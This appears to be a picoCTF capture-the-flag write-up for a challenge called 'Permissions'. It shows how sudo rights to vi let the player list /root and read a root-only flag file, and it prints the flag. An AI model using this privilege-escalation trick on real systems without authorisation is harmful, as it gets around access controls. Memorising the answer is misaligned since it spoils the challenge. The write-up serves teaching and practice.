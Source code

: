 # Permissions

## Description

Can you read files in the root file?
Additional details will be available after launching your challenge instance.

## Solution

Starting the instance you are provided with an ssh login. Using it you get into a Ubuntu instance on AWS. As the challenge suggests that the flag is hidden somewhere in the "root file" we can check out what's in the / (root) directory running `ls -la /` and we see that there is another directory in there called `/root`. On this dir we do not have any persmissions as a user. We can run `sudo -l` to see what sudo permissions we have 

```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
and bingo, we are allowed to use `vi`, so we should be able to run 
```
picoplayer@challenge:~$ sudo vi /root
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /root
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$,\.bak$,\~$
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                                                                     ./
.vim/
.bashrc
.flag.txt
.profile
.viminfo
```
thie file shows us a list of files inside the directory including a file called `.flag.txt` so we can run 

```
picoplayer@challenge:~$  sudo vi /root/.flag.txt
```
Which opens the file in vi and reveals the flag:
```
picoCTF{uS1ng_v1m_3dit0r_f6ad392b}
```